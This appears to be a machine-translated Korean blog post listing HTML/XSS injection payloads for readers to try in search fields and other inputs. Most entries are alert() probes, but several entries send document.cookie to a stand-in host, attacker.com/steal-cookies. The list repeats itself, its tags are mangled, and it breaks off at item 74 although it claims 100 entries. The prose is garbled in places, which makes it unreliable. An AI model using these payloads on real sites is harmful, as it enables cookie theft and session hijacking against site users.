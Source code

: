 ```yaml
---
title: "HTML 삽입 (페이로드 목록)"
description: ""
coverImage: "/assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png"
date: 2024-05-02 00:01
ogImage: 
  url: /assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png
tag: Tech
originalTitle: "HTML INJECTION (Payload List)"
link: "https://medium.com/@psychomong/html-injection-payload-list-735e69f522ca"
---
```



피신몽인 사람들, 다시 돌아

주사, 이제 페이로드 목록을 가져 오는 것을 보여드리고, 검색 패널에서 시도해 볼 수 있으며, 그대로 반영될 수 있습니다 & 저장되면 위험할 수도 있습니다,

이제 같은 것에 대해 몇 가지 기본 사항을 살펴보겠습니다. HTML 주입이 무엇인지 알아보기 위해
아스타 타커
HTML 주입 또는 주입 관련 질문에 대해, 바로 코드만 제공해 드릴게요. 이것을 시도해서 혜택을 얻어보세요..... 


![HTML INJECTION Payload List](/assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png)

<div class="content-ad"></div>

페이로드 목록을 확인해 보세요...

물론이죠! 저장된 및 반사된 HTML 주입 페이로드 100개를 모두 포함한 목록입니다:

저장된 HTML 주입 페이로드:
1. `script`alert(‘저장된 HTML 주입’)`/script`
2. `img src="javascript:alert(‘저장된 HTML 주입’)"`
3. `svg/onload=alert(‘저장된 HTML 주입’)`
4. `iframe src="javascript:alert(‘저장된 HTML 주입’)"`
5. `body onload=alert(‘저장된 HTML 주입’)`
6. `img src=x onerror=alert(‘저장된 HTML 주입’)`
7. `marquee onstart=alert(‘저장된 HTML 주입’)`
8. `input type="image" src="javascript:alert(‘저장된 HTML 주입’)"`
9. `img src=1 href=1 onerror=alert(‘저장된 HTML 주입’) /`
10. `input type="hidden" onkeypress="alert(‘저장된 HTML 주입’)"`
11. `audio onloadstart="alert(‘저장된 HTML 주입’)"`
12. `form onsubmit="alert(‘저장된 HTML 주입’)"`
13. `textarea onchange="alert(‘저장된 HTML 주입’)"`
14. `base href="javascript:alert(‘저장된 HTML 주입’)"`
15. `a href="javascript:alert(‘저장된 HTML 주입’)"`여기를 클릭하세요`/a`
16. `object data="javascript:alert(‘저장된 HTML 주입’)"`
17. `img src="x" onmouseover="alert(‘저장된 HTML 주입’)"`
18. `script`document.write(‘`iframe src="https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘"``/iframe`’);`/script`
19. `body background="javascript:alert(‘저장된 HTML 주입’)"`
20. `embed src="javascript:alert(‘저장된 HTML 주입’)"`
21. `script`alert(‘반사된 HTML 주입’)`/script`
22. `img src="javascript:alert(‘반사된 HTML 주입’)"`
23. `svg/onload=alert(‘반사된 HTML 주입’)`
24. `iframe src="javascript:alert(‘반사된 HTML 주입’)"`
25. `body onload=alert(‘반사된 HTML 주입’)`
26. `img src=x onerror=alert(‘반사된 HTML 주입’)`
27. `marquee onstart=alert(‘반사된 HTML 주입’)`
28. `input type="image" src="javascript:alert(‘반사된 HTML 주입’)"`
29. `img src=1 href=1 onerror=alert(‘반사된 HTML 주입’) /`
30. `input type="hidden" onkeypress="alert(‘반사된 HTML 주입’)"`
31. `audio onloadstart="alert(‘반사된 HTML 주입’)"`
32. `form onsubmit="alert(‘반사된 HTML 주입’)"`
33. `textarea onchange="alert(‘반사된 HTML 주입’)"`
34. `base href="javascript:alert(‘반사된 HTML 주입’)"`
35. `a href="javascript:alert(‘반사된 HTML 주입’)"`여기를 클릭하세요`/a`
36. `object data="javascript:alert(‘반사된 HTML 주입’)"`
37. `img src="x" onmouseover="alert(‘반사된 HTML 주입’)"`
38. `script`document.write(‘`iframe src="https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘"``/iframe`’);`/script`
39. `body background="javascript:alert(‘반사된 HTML 주입’)"`
40. `embed src="javascript:alert(‘반사된 HTML 주입’)"`

41. `svg/onload=alert(‘저장된 HTML 주입’)`
42. `body onload=alert(‘저장된 HTML 주입’)`
43. `img src=x onerror=alert(‘저장된 HTML 주입’)`
44. `marquee onstart=alert(‘저장된 HTML 주입’)`
45. `input type="image" src="javascript:alert(‘저장된 HTML 주입’)"`
46. `img src=1 href=1 onerror=alert(‘저장된 HTML 주입’) /`
47. `input type="hidden" onkeypress="alert(‘저장된 HTML 주입’)"`
48. `audio onloadstart="alert(‘저장된 HTML 주입’)"`
49. `form onsubmit="alert(‘저장된 HTML 주입’)"`
50. `textarea onchange="alert(‘저장된 HTML 주입’)"`
51. `base href="javascript:alert(‘저장된 HTML 주입’)"`
52. `a href="javascript:alert(‘저장된 HTML 주입’)"`여기를 클릭하세요`/a`
53. `object data="javascript:alert(‘저장된 HTML 주입’)"`
54. `img src="x" onmouseover="alert(‘저장된 HTML 주입’)"`
55. `script`document.write(‘`iframe src="https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘"``/iframe`’);`/script`
56. `body background="javascript:alert(‘저장된 HTML 주입’)"`
57. `embed src="javascript:alert(‘저장된 HTML 주입’)"`
58. `img src="javascript:alert(‘저장된 HTML 주입’)" onerror="alert(‘저장된 HTML 주입’)"`
59. `body``svg``script`alert(‘저장된 HTML 주입’)`/script``/svg``/body`
60. `a href="data:text/html,`script`alert(‘저장된 HTML 주입’)`/script`"`여기를 클릭하세요`/a`

<div class="content-ad"></div>

반가워요! 

다음은 HTML 주입 페이로드 결과입니다:
61. `svg/onload=alert(‘주입된 HTML 삽입’)`
62. `body onload=alert(‘주입된 HTML 삽입’)`
63. `img src=x onerror=alert(‘주입된 HTML 삽입’)`
64. `marquee onstart=alert(‘Reflected HTML Injection’)`
65. `input type="image" src="javascript:alert(‘주입된 HTML 삽입’)"`
66. `img src=1 href=1 onerror=alert(‘주입된 HTML 삽입’) /`
67. `input type="hidden" onkeypress="alert(‘주입된 HTML 삽입’)"`
68. `audio onloadstart="alert(‘주입된 HTML 삽입’)"`
69. `form onsubmit="alert(‘주입된 HTML 삽입’)"`
70. `textarea onchange="alert(‘주입된 HTML 삽입’)"`
71. `base href="javascript:alert(‘주입된 HTML 삽입’)"`
72. `a href="javascript:alert(‘주입된 HTML 삽입’)"`Click me`/a`
73. `object data="javascript:alert(‘주입된 HTML 삽입’)"
74. `img src="x" onmouseover="alert(‘주입된 HTML 삽입’)"`
... (중략)

여기까지 주입을 시도해보고, 어디에 삽입해야 하는지 알려줘.... 찾아보세요..

다음주 월요일에 만나요,

<div class="content-ad"></div>

행복한 해킹! 해커들...
